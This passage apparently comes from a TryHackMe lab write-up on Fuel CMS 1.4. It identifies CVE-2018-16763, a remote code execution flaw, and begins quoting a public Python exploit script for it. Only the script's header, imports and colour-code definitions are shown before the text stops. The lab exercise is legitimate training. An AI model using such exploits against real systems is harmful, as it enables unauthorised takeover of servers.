 What is the number of the CVE that allows an attacker to remotely execute code on this application?
Used Exploit Database to search for “remote code execution fuel cms 1.4”.  This produced 3 results.  Each referred to the same CVE: 
	CVE-2018-16763
Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.
Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)
THM listed a compatible exploit as the question hint:

Contents of exploit file:
#!/usr/bin/python3

# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763
#
# Poc Created by Ac1d (assassin)

import requests
import sys
import urllib

from requests.sessions import extract_cookies_to_jar

class col:
	HEADER = '\033[95m'
	BLUE = '\033[94m'
	CYAN = '\033[96m'
	GREEN = '\033[92m'
	WARNING = '\033[93m'
	FAIL = '\033[91m'
	RESET = '\033[0m'
	BLACK = "\033[0;30m"
	RED = "\033[0;31m"
	GREEN = "\033[0;32m"
	BROWN = "\033[0;33m"
	BLUE = "\033[0;34m"
	PURPLE = "\033[0;35m"
	LIGHT_GRAY = "\033[0;37m"
	DARK_GRAY = "\033[1;30m"
	LIGHT_RED = "\033[1;31m"
	LIGHT_GREEN = "\033[1;32m"
	YELLOW = "\033[1;33m"
	LIGHT_BLUE = "\033[1;34m"